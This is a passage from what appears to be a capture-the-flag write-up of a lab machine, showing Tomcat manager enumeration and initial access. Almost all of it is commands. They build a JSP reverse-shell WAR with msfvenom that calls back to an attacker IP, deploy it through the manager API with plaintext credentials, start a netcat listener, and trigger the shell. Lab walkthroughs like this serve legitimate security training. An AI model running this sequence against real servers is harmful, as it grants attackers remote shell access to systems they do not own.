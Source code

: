 ```sh
$ curl -u ${USERNAME}:${PASSWORD} http://10.10.10.194:8080/manager/text/list

```

![screenshot](/assets/images/tabby6.png)

```sh
# Tomcat version identification
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

https://github.com/p0dalirius/ApacheTomcatScanner

![screenshot](/assets/images/tabby7.png)

# Initial Access
-  Craft a `.war` reverse shell using _msfvenom_ and upload and deploy following the Tomcat's official documentation achieves the initial access as tomcat user.

# Creating a `war` file and deploying it to the server
- A `war` file is an archived Java application. 
## Create a reverse shell
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=9001 -f war > shell.war
```
## Upload a reverse shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/my-shell'
```
## List deployed shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```
## Start netcat listener
```sh
rlwrap nc -lvnp 9001
```
## Execute the deployed shell
```sh
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/my-shell/
```
